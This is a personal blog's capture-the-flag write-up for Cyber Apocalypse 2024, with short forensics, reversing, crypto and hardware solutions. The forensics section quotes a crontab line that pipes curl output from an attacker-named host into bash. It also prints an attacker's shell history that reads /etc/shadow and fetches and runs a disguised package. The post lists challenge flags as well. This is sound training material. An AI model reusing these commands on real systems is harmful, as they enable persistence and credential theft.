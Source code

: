 ```yaml
---
author: pl4int3xt
layout: post
title: Cyber Apocalypse 2024
date: '2024-03-09'
description: "Cyber apocalypse ctf 2024 Hacker royale"
useRelativeCover: true
cover: cover.jpg
categories: [Capture The Flag]
---
```



## Forensics
### Urgent

The first message is base64 encoded. the second message is url encoded

### It has begun


```
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

```
pl4int3xt@archlinux ~> echo 'NG5kX3kwdVJfR3IwdU5kISF9' | base64 -d
4nd_y0uR_Gr0uNd!!}
```

### An unusual sighting
```
What is the IP Address and Port of the SSH Server (IP:PORT)
```
sshd.log
```
[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain ""
```
```
100.107.36.130:2221
```
```
What time is the first successful Login
```
```
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2
```
```
2024-02-13 11:29:50
```
```
What is the time of the unusual Login
```
```
Note: Operating Hours of Korp: 0900 - 1900
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
```
```
2024-02-19 04:00:14
```

```
What is the Fingerprint of the attacker's public key
```
```
[2024-02-19 04:00:14] Failed publickey for root from 2.67.182.119 port 60071 ssh2: ECDSA SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```
```
OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```
```
What is the first command the attacker executed after logging in
```
```
What is the final command the attacker executed before logging out
```
bash_history.txt
```
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
```
```
[+] Here is the flag: HTB{B3sT_0f_luck_1n_th3_Fr4y!!}
```

## Reverse 
### LootStash

run strings and scroll

## Crypto
### Makeshift

```python
from secret import FLAG

flag = FLAG[::-1]
new_flag = ''

for i in range(0, len(flag), 3):
    new_flag += flag[i+1]
    new_flag += flag[i+2]
    new_flag += flag[i]

print(new_flag)
```

```python
new_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
flag = ''

for i in range(0, len(new_flag), 3):
    flag += new_flag[i+2]
    flag += new_flag[i]
    flag += new_flag[i+1]

original_flag = flag[::-1]
print(original_flag)
```
```shell
pl4int3xt@archlinux ~/D/cyberapocalypse> python3 decrypt.py
HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}
```

## Hardware
### Maze

in the pdf

